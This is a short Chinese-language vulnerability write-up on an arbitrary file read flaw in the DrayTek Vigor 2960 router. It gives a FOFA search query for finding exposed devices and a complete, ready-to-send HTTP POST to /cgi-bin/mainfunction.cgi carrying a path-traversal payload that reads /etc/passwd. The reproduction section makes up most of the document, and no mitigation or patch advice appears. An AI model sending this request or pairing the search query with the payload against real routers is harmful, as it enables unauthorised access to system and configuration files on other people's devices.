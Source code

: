 # Draytek Vigor 2960 路由器mainfunction任意文件读取漏洞

# 一、漏洞简介
DrayTek是中国台湾的一家网络设备制造商，其产品包括VPN路由器、管理型交换机、无线AP和管理系统等，并被中小型企业广泛使用。Vigor2960 v1.5.1.4 存在任意文件读取漏洞。攻击者可通过该漏洞读取泄露源码、数据库配置文件等等，导致网站处于极度不安全状态。

# 二、影响版本
+ Draytek Vigor 2960 路由器

# 三、资产测绘
+ fofa`title="Vigor 2960"`
+ 特征

![1712337973165-ab3cdc42-6e45-43c7-9fb9-932163c6c669.png](./img/R0YfAHe-kmHOBLwK/1712337973165-ab3cdc42-6e45-43c7-9fb9-932163c6c669-474159.png)

# 四、漏洞复现
```plain
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: 
Connection: close
Content-Length: 94
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6

action=getSyslogFile&option=../../etc/passwd
```

![1712338332725-35d5ddf9-fa88-4390-97cc-8f17ed0856e9.png](./img/R0YfAHe-kmHOBLwK/1712338332725-35d5ddf9-fa88-4390-97cc-8f17ed0856e9-576924.png)



> 更新: 2024-04-16 16:55:03  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hg8ng5hsagblmd2p>